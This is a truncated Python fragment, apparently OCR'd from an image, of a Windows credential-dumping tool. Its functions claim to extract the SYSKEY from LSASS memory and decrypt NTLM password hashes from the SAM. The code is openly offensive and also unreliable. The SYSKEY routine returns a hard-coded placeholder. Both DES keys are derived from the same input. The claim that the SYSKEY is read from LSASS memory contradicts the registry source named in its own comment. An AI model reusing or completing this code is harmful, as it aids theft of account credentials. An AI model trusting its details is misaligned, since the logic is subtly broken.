 ```python
    return hashes

def _get_syskey_from_memory(process_handle):
    """Extract SYSKEY from LSASS memory"""
    # SYSKEY is derived from:
    # HKLM\SYSTEM\CurrentControlSet\Control\Lsa\{JD,Skew1,GBG,Data}
    
    # This would search LSASS memory for registry structures
    # Simplified version - in production would scan memory pages
    
    syskey_parts = []
    
    # The real implementation would:
    # 1. Enumerate memory regions with VirtualQueryEx
    # 2. Search for registry hive structures
    # 3. Extract the 4 SYSKEY components
    # 4. Apply transformation matrix
    
    # Transformation matrix for SYSKEY
    transforms = [8, 5, 4, 2, 11, 9, 13, 3, 0, 6, 1, 12, 14, 10, 15, 7]
    
    # For demo, return sample SYSKEY
    return b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'

def _decrypt_hash(encrypted_hash, rid, syskey):
    """Decrypt NTLM hash using SYSKEY and RID"""
    
    # Create DES keys from RID
    rid_bytes = struct.pack('<I', rid)
    des_key1 = _rid_to_des_key(rid_bytes + rid_bytes)
    des_key2 = _rid_to_des_key(rid_bytes + rid_bytes)
    
    # RC4 decrypt with SYSKEY + RID + F value
    rc4_key = hashlib.md5(syskey + struct.pack('<I', rid) + b'NTPASSWORD\0').digest()
    rc4 = ARC4.new(rc4_key)
    decrypted = rc4.decrypt(encrypted_hash[4:20])  # Skip header
    
    # DES decrypt
    des1 = DES.new(des_key1, DES.MODE_ECB)
    des2 = DES.new(des_key2, DES.MODE_ECB)
    
    hash_part1 = des1.decrypt(decrypted[:8])
    hash_part2 = des2.decrypt(decrypted[8:16])
    
    return hash_part1 + hash_part2

def _rid_to_des_key(rid_bytes):
    """Convert RID to DES key"""
    key = bytearray(8)
    key[0] = rid_bytes[0] >> 1
    key[1] = ((rid_bytes[0] & 0x01) << 6) | (rid_bytes[1] >> 2)
    key[2] = ((rid_bytes[1] & 0x03) << 5) | (rid_bytes[2] >> 3)
    key[3] = ((rid_bytes[2] & 0x07) << 4) | (rid_bytes[3] >> 4)
    key[4] = ((rid_bytes[3] & 0x0f) << 3) | (rid_bytes[4] >> 5)
    key[5] = ((rid_bytes[4] & 0x1f) << 2) | (rid_bytes[5] >> 6)
    key[6] = ((rid_bytes[5] & 0x3f) << 1) | (rid_bytes[6] >> 7)
    key[7] = rid_bytes[6] & 0x7f
    
    # Add parity bits
    for i in range(8):
        key[i] = (key[i] << 1)
        if bin(key[i]).count('1') % 2 == 0:
            key[i] |= 1
```